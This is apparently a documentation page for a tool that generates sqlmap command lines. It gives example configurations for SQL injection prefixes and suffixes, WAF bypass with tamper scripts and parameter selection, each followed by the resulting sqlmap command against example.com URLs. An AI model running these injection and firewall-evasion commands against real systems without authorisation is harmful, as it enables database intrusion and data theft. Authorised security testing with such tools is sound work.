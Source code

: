 ### Advanced Payload Customization
```
Prefix: ' OR
Suffix: -- -
Invalid BigNum: ✓ Enabled
Invalid Logical: ✓ Enabled
No Cast: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/login.php?id=1" --prefix="' OR " --suffix=" -- -" --invalid-bignum --invalid-logical --no-cast
```

### WAF Bypass with Tamper Scripts
```
Tamper Scripts: space2comment,randomcase
DBMS: MySQL
OS: Linux
Prefix: ' UNION SELECT
Suffix: -- -
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/search.php?q=test" --tamper=space2comment,randomcase --dbms=mysql --os=linux --prefix="' UNION SELECT " --suffix=" -- -"
```

### Custom Parameter Selection
```
Testable Parameters: username,password,email
Skip Static: ✓ Enabled
Invalid String: ✓ Enabled
No Escape: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/register.php" -p "username,password,email" --skip-static --invalid-string --no-escape
```

## ⚠️ Important Considerations

### Parameter Selection Strategy
- **Test all parameters first** to identify vulnerabilities
- **Use --testable** for focused testing on known parameters
- **Use --skip** for parameters known to be safe or problematic
- **Enable --skip-static** to reduce noise from static content

### DBMS Selection
- **Let SQLmap auto-detect** when possible
- **Specify DBMS only when confident** of the target
- **Wrong DBMS selection** can cause false negatives
- **Use fingerprinting** to confirm DBMS type
